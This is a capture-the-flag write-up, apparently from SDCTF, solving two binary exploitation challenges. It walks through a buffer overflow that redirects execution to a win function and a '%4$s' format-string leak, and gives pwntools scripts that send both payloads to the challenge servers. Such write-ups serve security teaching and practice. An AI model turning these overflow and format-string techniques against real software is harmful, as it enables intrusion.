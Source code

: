 # pwn

## Flag Dropper
> Solved by Taz and thewhiteh4t

* After loading the binary in `GDB` we can list the functions
```
info functions
```

![](https://i.imgur.com/rbChpV2.png)

* here we can see that we have a `win` function
* win function disassembled :

```bash
gdb-peda$ disas win
Dump of assembler code for function win:
   0x00000000004005da <+0>:	mov    eax,0x0
   0x00000000004005df <+5>:	lea    rsi,ds:0x60109d
   0x00000000004005e7 <+13>:	lea    rdi,ds:0x601094
   0x00000000004005ef <+21>:	call   0x400440 <fopen@plt>
   0x00000000004005f4 <+26>:	mov    rdx,rax
   0x00000000004005f7 <+29>:	mov    eax,0x0
   0x00000000004005fc <+34>:	movabs rdi,0x601124
   0x0000000000400606 <+44>:	mov    esi,0x16
   0x000000000040060b <+49>:	call   0x400430 <fgets@plt>
   0x0000000000400610 <+54>:	mov    edi,0x1
   0x0000000000400615 <+59>:	mov    eax,0x1
   0x000000000040061a <+64>:	mov    edx,0x16
   0x000000000040061f <+69>:	syscall
   0x0000000000400621 <+71>:	jmp    0x4005d0 <_exit>
   0x0000000000400623 <+73>:	nop    WORD PTR cs:[rax+rax*1+0x0]
   0x000000000040062d <+83>:	nop    DWORD PTR [rax]
End of assembler dump.
```

* it is opening and reading some file
* now lets run the binary in GDB with a breakpoint in main

![](https://i.imgur.com/MMVX7lC.png)

* after some instructions we can see **flag.txt**
* I created a file named **flag.txt** with a fake flag inside it
* now I tried to execute the `win` function I found earlier

![](https://i.imgur.com/Zb62G51.png)

* great so win function is opening **flag.txt** and printing the flag
* now I looked for something which can execute the win function

![](https://i.imgur.com/0yJjSWN.png)

* we can see in the `code` section :

```
<main+142>: jmp QWORD PTR [rax]
```

* `jmp` is used for changing the flow of the programing , that means if we can provide the start address of `win` function to `jmp` it will execute it for us

* I found the offset at `73`

![](https://i.imgur.com/bovjmMe.png)

* Now lets find the start address of `win` function

```
gdb-peda$ print win
$1 = {<text variable, no debug info>} 0x4005da <win>
```

* Testing the offset in GDB :

```bash
# Payload
python -c "print('A' * 73 + 'BBBBBBBB')"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
```

![](https://i.imgur.com/6hrG88c.png)

* we have a small problem here, it seems like one of the A is extra so the offset should be 72 instead of 73

* Testing the new offset using pwntools with start address of `win` function :

```python
#!usr/bin/env python3

from pwn import *

offset = 72
addr = 0x4005da # Start address of win function

junk = b'A' * 72
le_num = p64(addr) # converted to little endian
buffer = junk + le_num 

elf = ELF('./flagDropper')
p = elf.process()
p.send(buffer)
out = p.recvall()
print(out)

```

* the script above runs the binary locally and sends our payload, here is the output :

![](https://i.imgur.com/fc0v22d.png)

* It works!, now I created a new script to send the payload on the server

```python
#!/usr/bin/env python3
    
from pwn import *
    
host = 'dropper.sdc.tf'
port = 1337
offset = 72
addr = 0x4005da # address of win function
    
junk = b'A' * offset
le_num = p64(addr)
    
buffer = junk + le_num
conn = remote(host, port)
conn.send(buffer)
flag = conn.recvuntil('}').decode()
print(f'\nFLAG : {flag}\n')
conn.close()
```

**OUTPUT :**

![](https://i.imgur.com/pu5NYoX.png)

----------

## printFailed
> Solved By : thewhiteh4t

* Right from the start we get a segfault on this binary

```bash
./printFailed
zsh: segmentation fault (core dumped)  ./printFailed
```

* Let's investigate in GDB

![](https://i.imgur.com/91Rzavz.png)

* It's trying to open **flag.txt** but it does not exist, I created the file and relaunched the binary and it works now

```bash
./printFailed
can you guess the scrambled flag?
yes
you guessed:
yes
wrong
```

* It prints the input, let's look into GDB again
* A scramble function is called soon after the file is read
* Here we can see the scrambled flag : 

![](https://i.imgur.com/itwobGI.png)

```
"tedug|g5l4`gm5h~\v", '\001' <repeats 22 times>
```

* this looks familiar

```
tedug|g5l4`gm5h~\v
sdctf{f4k3_fl4g}
```

* so the input is shifted by 1 character!
* let's try to input the scrambled flag in the local binary

```python
#!/usr/bin/env python3

from pwn import *

elf = ELF('./printFailed')

guess = b'tedug|g5l4`gm5h~\v' + b'\001' * 22

p = elf.process()
p.send(guess)
out = p.recv(4096)
print(out)
```

![](https://i.imgur.com/z5MuV9f.png)

* the scrambled flag works!
* but now the issue is that we don't know the actual flag so we cannot make a scrambled flag
* earlier we saw that the binary prints the input, this hints at `format string exploit`
* this article helped a lot in figuring out the way forward
* https://nikhilh20.medium.com/format-string-exploit-ccefad8fd66b
* https://man7.org/linux/man-pages/man3/printf.3.html

```
%s   -> string
%2$s -> 2nd argument
%3$s -> 3rd argument
```

* I tried them one by one and `%4$s` leaks the scrambled flag! 

![](https://i.imgur.com/kPVOxuG.png)

* Here is the final script and output :

```python
#!/usr/bin/env python3

from pwn import *

host = 'printf.sdc.tf'
port = 1337

payload = b'%4$s'

conn = remote(host, port)
conn.send(payload + b'\n')
res = conn.recv(4096).decode().split('\n')[2]
conn.close()

print(res)

for char in res:
    print(chr(ord(char) - 1), end='')
```

**OUTPUT :**

![](https://i.imgur.com/DCmtMWZ.png)